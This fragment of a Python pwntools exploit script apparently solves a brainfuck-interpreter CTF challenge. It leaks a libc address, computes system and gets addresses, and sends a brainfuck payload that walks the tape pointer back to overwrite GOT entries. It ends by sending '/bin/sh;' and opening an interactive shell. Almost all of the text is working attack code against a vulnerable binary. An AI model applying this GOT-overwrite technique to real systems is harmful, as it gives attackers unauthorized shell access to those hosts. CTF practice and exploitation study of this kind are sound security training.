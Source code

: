 ```python
for i in range(4):
	libc += (ord(r.recv(1)) & 0xff) << (0x8*(3-i))

success('leak = '+hex(libc))
libc -= 0x1b25a0
log.info('libc_base = '+hex(libc))
system = libc + 0x3ada0
log.info('system = '+hex(system))
gets = libc + 0x5f3e0
log.info('gets = '+hex(gets))

r.send(chr(0x08))
r.send(chr(0x04))
r.send(chr(0x86))
r.send(chr(0x71))

r.recvuntil('[ ]\n')

payload = ''
payload += '<'*(0x0804A0A0-0x0804A014-3)
payload += ','
payload += '<'
payload += ','
payload += '<'
payload += ','
payload += '<'
payload += ','
## fgets -> gets
payload += '<'
payload += ','
payload += '<'
payload += ','
payload += '<'
payload += ','
payload += '<'
payload += ','
## return main()
payload += '.'

r.sendline(payload)

r.send(chr( (system >> 0x8*3) & 0xff ))
r.send(chr( (system >> 0x8*2) & 0xff ))
r.send(chr( (system >> 0x8*1) & 0xff ))
r.send(chr( (system >> 0x8*0) & 0xff ))

r.send(chr( (gets >> 0x8*3) & 0xff ))
r.send(chr( (gets >> 0x8*2) & 0xff ))
r.send(chr( (gets >> 0x8*1) & 0xff ))
r.send(chr( (gets >> 0x8*0) & 0xff ))

r.recvuntil('[ ]\n')

payload = '/bin/sh;'
payload += 'z'*0x400

r.sendline(payload)

r.interactive()
```
